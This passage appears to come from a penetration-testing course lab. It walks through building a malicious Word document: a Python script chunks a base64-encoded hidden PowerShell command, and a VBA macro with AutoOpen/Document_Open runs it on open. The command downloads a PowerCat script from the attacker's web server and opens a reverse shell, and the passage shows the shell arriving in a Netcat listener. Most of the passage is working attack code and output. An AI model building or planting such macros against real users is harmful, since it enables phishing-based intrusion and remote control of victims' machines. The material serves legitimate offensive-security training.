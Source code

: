 ```
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

> Listing 7 - Python script to split a base64 encoded PowerShell command string

Having split the base64-encoded string into smaller chunks, we can update our macro:

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```

> Listing 8 - Macro invoking PowerShell to create a reverse shell

After we modify our macro, we can save and close the document. Before re-opening it, let's start a Python3 web server in the directory where the PowerCat script is located. We'll also start a Netcat listener on port 4444.

After double-clicking the document, the macro is automatically executed. Note that the macro security warning regarding the *Enable Content* button is not appearing again. It will only appear again if the name of the document changes.

After the macro is executed, we receive a GET request for the PowerCat script in our Python3 web server and an incoming reverse shell in our Netcat listener.

```
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.196] 49768
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\offsec\Documents>
```
